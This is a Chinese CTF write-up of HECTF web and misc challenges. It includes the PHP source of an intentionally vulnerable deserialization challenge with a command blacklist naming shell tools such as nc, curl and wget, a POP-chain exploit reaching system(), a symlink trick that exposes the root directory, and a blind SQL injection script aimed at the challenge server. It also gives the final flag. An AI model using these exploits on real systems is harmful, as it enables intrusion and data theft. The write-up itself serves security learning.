





# HECTF 第八届web&&misc-先知社区

> **来源**: https://xz.aliyun.com/news/16148  
> **文章ID**: 16148

---

# HECTF 第八届web&&misc

## 前言

这次打了HECTF，题目质量都挺不错的，做了一些web和简单的misc题目

## Are u happy

开题：



一个小游戏，一般就是找js的代码的一些东西

我们翻阅js的代码



看到了一串似乎是base64编码的东西

去一个在线网站解码

解码得到 flag



## baby\_unserialize

源码

```
<?php
error_reporting(0);

show_source(__FILE__);
echo "flag in /flag</br>";

class User{
    public $name;
    public $passwd;
    public $msg;
    public $token = "guest";
    public function __construct($name,$passwd){
        $this->name = $name;
        $this->passwd = $passwd;
    }

    public function __wakeup(){
        $this->token = "guest";
    }

    public function __destruct(){
        if(!$this->check()){
            exit(0);
        }else{
            echo $this->msg;
        }
    }

    public function check(){
        if ($this->token === "admin"){
            return true;
        }else{
            return false;
        }
    }

}

class class00{
    public function __call($a,$b){
        return 1;
    }
    public function __set($a, $b){
        $b();
    }

}


class class01{
    public $temp = 0;
    public $str3;
    public $cls;

    public function __tostring(){
        $this->temp = $this->cls->func1();
        if ($this->temp === 1){
            $this->cls->str1 = $this->str3;
        }else{
            echo "0";
            return "0";
        }

        return "have fun";
    }
}

class class02{
    public $payload;
    public function __invoke(){
        if (!preg_match('/ls|dir|nl|nc|cat|tail|more|flag|sh|cut|awk|strings|od|curl|ping|\*|sort|ch|zip|mod|sl|find|sed|cp|mv|ty|grep|fd|df|sudo|more|cc|tac|less|head|\.|{|}|tar|zip|gcc|uniq|vi|vim|file|xxd|base64|;|date|bash|\$|\x00|`|env|\?|wget|\"|\'|\\\|php|id|whoami|=/i', $this->payload)) { 
        system($this->payload." >/dev/null 2>&1");
        }else{
            die("fuck you Hacker");
        }
    }
}


if (isset($_POST["user"])){

    $user = unserialize(base64_decode($_POST["user"]));
}else{
    exit();
}

```

首先需要明确大概的思路

入口点是User，关键点

```
public function __destruct(){
        if(!$this->check()){
            exit(0);
        }else{
            echo $this->msg;
        }
    }

```

可以触发tostring，但是需要通过check()检测

```
public function __wakeup(){
        $this->token = "admin";
    }

```

然后在

```
public function __tostring(){
        $this->temp = $this->cls->func1();
        if ($this->temp === 1){
            $this->cls->str1 = $this->str3;
        }else{
            echo "0";
            return "0";
        }

        return "have fun";
    }

```

可以触发set方法

```
public function __set($a, $b){
        $b();
    }

```

这里可以触发invoke方法

```
public function __invoke(){
        if (!preg_match('/ls|dir|nl|nc|cat|tail|more|flag|sh|cut|awk|strings|od|curl|ping|\*|sort|ch|zip|mod|sl|find|sed|cp|mv|ty|grep|fd|df|sudo|more|cc|tac|less|head|\.|{|}|tar|zip|gcc|uniq|vi|vim|file|xxd|base64|;|date|bash|\$|\x00|`|env|\?|wget|\"|\'|\\\|php|id|whoami|=/i', $this->payload)) { 
        system($this->payload." >/dev/null 2>&1");
        }else{
            die("fuck you Hacker");
        }
    }

```

然后到了命令执行的部分

根据逻辑构造 pop 链

```
<?php
error_reporting(0);

show_source(__FILE__);
echo "flag in /flag</br>";

class User{
    public $name;
    public $passwd;
    public $msg;
    public $token = "guest";
    public function __construct($name,$passwd){
        $this->name = $name;
        $this->passwd = $passwd;
    }

    public function __wakeup(){
        $this->token = "guest";
    }

    public function __destruct(){
        if(!$this->check()){
            exit(0);
        }else{
            echo $this->msg;
        }
    }

    public function check(){
        if ($this->token === "admin"){
            return true;
        }else{
            return false;
        }
    }

}

class class00{
    public function __call($a,$b){
        return 1;
    }
    public function __set($a, $b){
        $b();
    }

}


class class01{
    public $temp = 0;
    public $str3;
    public $cls;

    public function __tostring(){
        $this->temp = $this->cls->func1();
        if ($this->temp === 1){
            $this->cls->str1 = $this->str3;
        }else{
            echo "0";
            return "0";
        }

        return "have fun";
    }
}

class class02{
    public $payload;
    public function __invoke(){
        if (!preg_match('/ls|dir|nl|nc|cat|tail|more|flag|sh|cut|awk|strings|od|curl|ping|\*|sort|ch|zip|mod|sl|find|sed|cp|mv|ty|grep|fd|df|sudo|more|cc|tac|less|head|\.|{|}|tar|zip|gcc|uniq|vi|vim|file|xxd|base64|;|date|bash|\$|\x00|`|env|\?|wget|\"|\'|\\\|php|id|whoami|=/i', $this->payload)) { 
        system($this->payload." >/dev/null 2>&1");
        }else{
            die("fuck you Hacker");
        }
    }
}


$a=new User(1,1);
$a->token='admin';
$a->msg=new class01();
$a->msg->cls=new class00();
$a->msg->str3=new class02();
echo (serialize($a));

```

然后就是绕过waf，绕了好半天最后发现可以

```
ln -s / /var/www/html/aaa
```

软连接

最后得到 flag，



## baby\_sql\*

账号为admin，万能密码登录成功，进去后是个查询页面，fuzz了一下，过滤了`=`、空格、information，网上找了个脚本稍微改了下，只爆出了库名，爆破表名时有点问题

```
import requests

url = 'http://8.153.107.251:31865/worker.php'
success_mark = 'g01den员工今天打了卡'

# ASCII字符范围
ascii_range = range(ord('a'), 1 + ord('z'))
# 字符范围包括花括号、a-z 和 0-9
str_range = [123, 125] + list(ascii_range) + list(range(48, 58))

# 获取数据库名长度
def GetDBNameLength(url):
    length = 0
    print("开始获取数据库名长度...")
    for l in range(1, 99):  # 假设数据库名最大长度为 99
        payload = f"g01den'/**/and/**/length((select/**/database()))/**/like/**/{l}#"
        data = {'name': payload}
        res = requests.post(url, data=data)
        if success_mark in res.content.decode("utf-8"):
            print(f"数据库名长度为：{l}")
            length = l
            break
    return length

# 获取数据库名
def GetDBName(url):
    DBName = ''
    length = GetDBNameLength(url)
    print(f"数据库名长度：{length}")

    print("开始获取数据库名...")
    for i in range(1, length + 1):
        for j in range(33, 127):  # 遍历ASCII码值
            payload = f"g01den'/**/and/**/ascii(substr((select/**/database()),{i},1))/**/like/**/{j}#"
            data = {'name': payload}
            res = requests.post(url, data=data)
            if success_mark in res.content.decode("utf-8"):
                DBName += chr(j)
                print(DBName)
                break
    return DBName

# 获取表的数量
def GetTablesCount(url):
    tnum = 0
    print("开始获取表的数量...")
    for i in range(1, 50):  # 假设最多有50个表
        payload = f"g01den'/**/and/**/length((select/**/count(*)/**/from/**/schema_auto_increment_columns.tables/**/where/**/table_schema/**/like/**/database()))/**/like/**/{i}#"
        data = {'name': payload}
        res = requests.post(url, data=data)
        if success_mark in res.content.decode("utf-8"):
            tnum = i
            print(f"数据库中共有 {tnum} 张表")
            break
    return tnum

# 获取表名
def GetTables(url, db):
    tables = []
    tnum = GetTablesCount(url)
    print(f"共有 {tnum} 张表")

    for i in range(0, tnum):
        tname = ''
        # 获取每张表的名称长度
        for n in range(1, 50):  # 假设表名长度最大为50
            payload = f"g01den'/**/and/**/length(substr((select/**/table_name/**/from/**/schema_auto_increment_columns.tables/**/where/**/table_schema/**/like/**/'{db}'),{i+1},1))/**/like/**/{n}#"
            data = {'name': payload}
            res = requests.post(url, data=data)
            if success_mark in res.content.decode("utf-8"):
                print(f"第 {i+1} 张表的名称长度为 {n}")
                tname_length = n
                break

        # 获取表名的每个字符
        for l in range(1, tname_length + 1):
            for j in range(33, 127):  # 遍历ASCII码值
                payload = f"g01den'/**/and/**/ascii(substr((select/**/table_name/**/from/**/schema_auto_increment_columns.tables/**/where/**/table_schema/**/like/**/'{db}'),{i+1},{l}),1)/**/like/**/{j}#"
                data = {'name': payload}
                res = requests.post(url, data=data)
                if success_mark in res.content.decode("utf-8"):
                    tname += chr(j)
                    print(f"第 {i+1} 张表的名称：{tname}")
                    break
        tables.append(tname)

    return tables


# 主程序
if __name__ == '__main__':
    db_name = GetDBName(url)
    print(f"数据库名是：{db_name}")
    tables = GetTables(url, db_name)
    print(f"数据库 '{db_name}' 中的所有表名：{tables}")

```

有点小问题

## Misc Rem\_You

foremost出一个压缩包，解密后是一个二维码分为九块，拼的话还是很简单的，图片都有白边，按照白边拼就好了


需要扫一个码

  
得到一串编码

然后base32解码得到flag

  
得到flag

HECTF{uV3xxc7S8iyBNTxtfxvPrO7RFE3gLpro9a3AW2KP}
